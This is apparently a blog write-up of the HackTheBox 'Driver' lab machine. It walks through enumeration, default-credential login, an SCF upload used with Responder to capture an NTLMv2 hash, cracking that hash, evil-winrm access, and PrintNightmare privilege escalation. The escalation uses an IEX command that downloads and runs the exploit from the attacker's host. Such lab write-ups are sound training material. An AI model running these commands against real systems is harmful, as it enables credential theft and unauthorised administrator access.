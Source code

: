 ```yaml
---
title: "Driver"
date: 2022-09-20T14:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


## Enumeration

```bash
PORT    STATE SERVICE      REASON  VERSION
80/tcp  open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-16T06:45:20
|_  start_date: 2021-11-16T06:30:11
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h17m59s, deviation: 0s, median: 7h17m59s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 39061/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 37846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

```

Basically a windows machine with a web server, visiting the website requires admin creds

RPC open on port 135...lets do Rpc enumeration

```bash
$rpcdump.py 10.10.11.106
Impacket v0.9.25.dev1 - Copyright 2021 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.11.106
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
ncacn_ip_tcp:10.10.11.106[49408]
ncalrpc:[WindowsShutdown]
ncacn_np:\\DRIVER[\PIPE\InitShutdown]
ncalrpc:[WMsgKRpc07AEA0]
...
```

There was 445 endpoints so for readability I put it in a separate file called `rpcdump.txt`

Back to the website it says: “MFP Firmware Update Center. Please enter password for admin”

Defaults creds work lol

`admin : admin`

After login we see a printer

In Firmware updates page we can upload files (upload Firmware)

As samba open those are probably saved in the shares

After some research (google) I discovered [SCF file attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

we create an exploit named `@exploit.scf`

we start a responder to capture hashes
`sudo responder -wrf --lm -v -I tun0`

I had issues with tun0 interface because of my network configuration, as I am on virtualbox (Nat network + vpn from guest)

But eventually after clicking on submit button we get the following:

```bash
[SMB] NTLMv2 Client : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash : tony::DRIVER:6f09da70e73b9237:674092FE6EC25CB23CBB01D554A9B854:0101000000000000DEB3B39E53B8D70144991278610991070000000002000400270027000000000000000000
```

Crack the hash with john+rockyou

```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony (tony)
1g 0:00:00:00 DONE (2021-10-03 00:42) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
```

So creds are `tony : liltony`

we connect with evil-winrm
`evil-winrm -i 10.10.11.106 -u tony -p liltony`

USER FLAG
`_Evil-WinRM_ PS C:\Users\tony\Desktop> type user.txt`

## Privileges Escalation

rpcdump show us the printer is enabled so `spool service` runs...we use [printNighmare](https://github.com/outflanknl/PrintNightmare) exploit

we upload the file with evil-winrm
`upload CVE-2021-1675.ps1`

But we cannot import it

```powershell
File C:\Users\tony\Desktop\cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1

- Import-Module .\cve-2021-1675.ps1

...

- CategoryInfo : SecurityError: (:) [Import-Module], PSSecurityException
- FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

we can bypass that with the help of download the file with help of `IEX` command

we start a python server where the exploit is and download with IEX on evil-winrm

```powershell
IEX(New-Object Net.Webclient).downloadstring('http://10.10.15.45:4444/CVE-2021-1675.ps1') //used port 4444 for server because 80 was busy (had another server)
```

Then we invoke it and choose our creds

```powershell
Invoke-Nightmare -NewUser "nairolf" -NewPassword "nairolf"

[+] added user nairolf as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Now we are admin...lets connect as such
`evil-winrm -i 10.10.11.106 -u nairolf -p nairolf`

ROOT FLAG
`_Evil-WinRM_ PS C:\Users\Administrator\Desktop> type root.txt`

This room was anything but easy...htb got a problem rating their boxes
